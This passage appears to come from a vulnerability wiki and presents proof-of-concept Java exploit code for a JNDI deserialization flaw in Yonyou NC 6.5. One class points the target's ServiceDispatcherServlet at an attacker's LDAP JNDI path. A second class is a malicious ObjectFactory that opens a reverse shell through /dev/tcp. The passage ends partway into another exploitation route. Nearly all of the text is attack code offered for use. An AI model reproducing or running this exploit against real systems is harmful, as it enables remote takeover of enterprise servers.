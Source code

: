 ### poc

![mov.gif](/Users/aresx/Documents/VulWiki/.resource/用友nc6.5反序列化漏洞/media/rId44.gif)

> explpit.java

    import nc.bs.framework.common.NCLocator;

    import java.util.Properties;

    public class poc {

        public static void attack(String url, String jndipath) {
            Properties env = new Properties();
            if (!url.startsWith("http")) {
                url = "http://" + url;
            }
            env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
            NCLocator locator = NCLocator.getInstance(env);
            locator.lookup(jndipath);
        }

        public static void main(String[] args) {
            attack("http://target", "ldap://ip:port/classname");
        }
    }

> remote.java

    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.io.Serializable;
    import java.util.Hashtable;

    public class remote implements ObjectFactory, Serializable {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
            return null;
        }
    }

> 当然也可以选择利用 nc 自带的类进行远程部署利用

    import nc.bs.framework.common.ComponentMetaVO;
    import nc.bs.framework.rmi.RemoteAddressSelector;
    import nc.bs.framework.rmi.RemoteProxy;
